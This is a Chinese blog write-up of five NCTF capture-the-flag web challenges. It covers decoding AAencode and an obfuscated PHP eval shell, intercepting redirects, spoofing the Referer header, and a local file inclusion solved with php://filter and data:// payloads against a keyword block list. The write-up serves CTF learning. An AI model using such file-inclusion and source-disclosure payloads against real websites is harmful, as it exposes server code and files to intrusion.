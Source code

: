 ```yaml
---
layout: post
title: NCTF Web 5 题题解（Part 1）
tags: NCTF Write-up Web
---
```


* 目录：
{:toc}

### 100 AAencode  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/*bgOs61*KFAG82G7BTNqrGItjt.ktJ5DEHDJE5kTwZ0!/r/dLAAAAAAAAAA){: width="80%"}  

	> javascript aaencode  
	> [http://115.28.150.176/aaencode.txt](http://115.28.150.176/aaencode.txt)  

* 题解:  
都提示是 JavaScript 了, 用浏览器的 console 跑一下试试看:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/7emM69dnS7ZiLfZmcGMc1mk0P7QN6H3wAiN4oNL7DWc!/r/dK0AAAAAAAAA){: width="100%"}  

* flag：nctf{javascript_aaencode}
<hr>

### 100 单身二十年  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/WYGRVUjGV*Seie8dVvZK0XeWSXdMghMl8ZSTwg7P1MQ!/r/dNwAAAAAAAAA){: width="80%"}  

	> 这题可以靠技术也可以靠手速！  
	> 老夫单身二十年，自然靠的是手速！  
	> 题目地址：[撸了他！](http://chinalover.sinaapp.com/web8/)  

* 题解:  
点第一个页面的链接, 仔细看的话能看出有跳转, 我手速真的很快, 尝试了一次就把中间那张图给截下来了:   
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/UJ8QZWkWjyr2Hb3Hn2cJ13jGbavVW50o85ufVdzGJ.4!/r/dHwBAAAAAAAA){: width="100%"}  
有跳转当然要用拦截工具了, Fiddler F11:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/4AA5qT.T.175*MSDjRHzZVQth8MBb0ABbzmuMMbdeUg!/r/dAYBAAAAAAAA){: width="100%"}  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/n1ROW56tMZs59r2zFaCAfmgjNv13*X3dYTDmlSiKLwk!/r/dMYAAAAAAAAA){: width="100%"}  

* flag：nctf{yougotit_script_now}   
<hr>

### 100 你从哪里来  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/v*Uij.KE8SrMaM1tLIqjOglZk28IiVgEd.oIMsd3nn8!/r/dAsBAAAAAAAA){: width="80%"}  

	> 你是从 google 来的吗？   
	> [http://115.28.150.176/referer/index.php](http://115.28.150.176/referer/index.php)

* 题解:   
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/hTd7cZZ8kw.YdL*gWelw5gm1kdJ*X77oh2Igujh.I5U!/r/dNwAAAAAAAAA){: width="80%"}  
很明显, 改 HTTP requests 中的 `referer`, 可以用 firefox 的 tamper data 插件, 这里还是用 fiddler.    
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/uNpijEofdO0qmGhtguDly8WZGWnz91dZqLYAcHC3QjA!/r/dAoBAAAAAAAA){: width="100%"}  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/iv38eCVvlcyWeP23wuUlYRV7KIAmzB0eVfMN7SEUQvk!/r/dHwBAAAAAAAA){: width="100%"}  

* flag：nctf{http_referer}   
<hr>

### 100 php decode  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/1mXB.qFELl2GEUfhE6ulQMICaWnfaI1LQ7fTvxPlYEk!/r/dAoBAAAAAAAA){: width="80%"}  

	> 见到的一个类似编码的shell，请解码   
	> 
	> ```php   
	<?php
	function CLsI($ZzvSWE) {
		$ZzvSWE = gzinflate(base64_decode($ZzvSWE));
		for ($i = 0; $i < strlen($ZzvSWE); $i++) {
			$ZzvSWE[$i] = chr(ord($ZzvSWE[$i]) - 1);
		}
		return $ZzvSWE;
	}
	eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));
	?>
	> ```  
	> 

* 题解:   
	首先运行题目给的代码, 结果解释器报错:  

	> Parse error: syntax error, unexpected '{' in D:\Course\CTF\NCTF\php decode\decode.php(16) : eval()'d code on line 2  

	那么回来看看出错的代码: `eval(CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));` 
	eval 的参数必须是一个合法的 php 语句, 那么还是先把 eval 的参数输出看看再说, 代码改成:  
	`echo CLsI("+7DnQGFmYVZ+eoGmlg0fd3puUoZ1fkppek1GdVZhQnJSSZq5aUImGNQBAA=="));`, 结果输出如下:

	> 锘縫hpinfo();  
	> flag:nctf{gzip_base64_hhhhhh}  

* flag：nctf{gzip_base64_hhhhhh}   




<hr>

### 150 文件包含  
* 题目:  
![](http://r.photo.store.qq.com/psb?/V11aPCg53lyBwf/tIHjsm6TX.J6ADSq701wt770uWEjWxbA3IpLKPVB504!/r/dK0AAAAAAAAA){: width="80%"}  

	> 没错 这就是传说中的LFI  
	> 传送门[点我带你飞](http://4.chinalover.sinaapp.com/web7/index.php)  
	>   
	> TIPS:[http://drops.wooyun.org/tips/3827](http://drops.wooyun.org/tips/3827)  

* 题解:   
	题目是文件包含, 而且是 LFI, 即本地文件包含, 那应该就不是远程包含一句话这类思路了, 先试试直接写 shell 呢?
	[http://4.chinalover.sinaapp.com/web7/index.php?file=data:text/plain,<?php phpinfo();?>](http://4.chinalover.sinaapp.com/web7/index.php?file=data:text/plain,<?php phpinfo();?>)  
	结果是:  

	> Oh no!  

	嗯...试试读源码, php 有个特殊协议(其实我也不会php, 提示给的乌云drops很好, 但是乌云已经...:(, php://filter 用于数据流打开时的筛选过滤应用, 如果通过它读取 php 文件并编码成不能正常运行的形式, 就可以得到编码后的源码了, 试试?
	[http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php](http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php)
	结果是:  

	> PGh0bWw+CiAgICA8dGl0bGU+YXNkZjwvdGl0bGU+CiAgICAKPD9waHAKCWVycm9yX3JlcG9ydGluZygwKTsKCWlmKCEkX0dFVFtmaWxlXSl7ZWNobyAnPGEgaHJlZj0iLi9pbmRleC5waHA/ZmlsZT1zaG93LnBocCI+Y2xpY2sgbWU/IG5vPC9hPic7fQoJJGZpbGU9JF9HRVRbJ2ZpbGUnXTsKCWlmKHN0cnN0cigkZmlsZSwiLi4vIil8fHN0cmlzdHIoJGZpbGUsICJ0cCIpfHxzdHJpc3RyKCRmaWxlLCJpbnB1dCIpfHxzdHJpc3RyKCRmaWxlLCJkYXRhIikpewoJCWVjaG8gIk9oIG5vISI7CgkJZXhpdCgpOwoJfQoJaW5jbHVkZSgkZmlsZSk7IAovL2ZsYWc6bmN0ZntlZHVsY25pX2VsaWZfbGFjb2xfc2lfc2lodH0KCj8+CjwvaHRtbD4=  

	base64 解码后:

	> ```  
	> <html>  
	> <title>asdf</title>  
    >  
	> <?php  
	> error_reporting(0);  
	> if(!$_GET[file]){echo '<a href="./index.php?file=show.php">click me? no</a>';}  
	> $file=$_GET['file'];  
	> if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){  
	>     echo "Oh no!";  
	> exit();  
	> }  
	> include($file);   
	> //flag:nctf{edulcni_elif_lacol_si_siht}  
	> 
	> ?>  
	> </html>  
	> ```  

* flag：nctf{edulcni_elif_lacol_si_siht}
<hr>

<div style="display:inline;float:left">  
	<a href="/2016/10/02/writeup-nctf-web-part-0.html">上 • NCTF Web 5 题题解（Part 0）</a>  
</div>  
<div style="display:inline;float:right">  
	<a href="/2016/10/02/writeup-nctf-web-part-2.html">下 • NCTF Web 5 题题解（Part 2）</a>  
</div>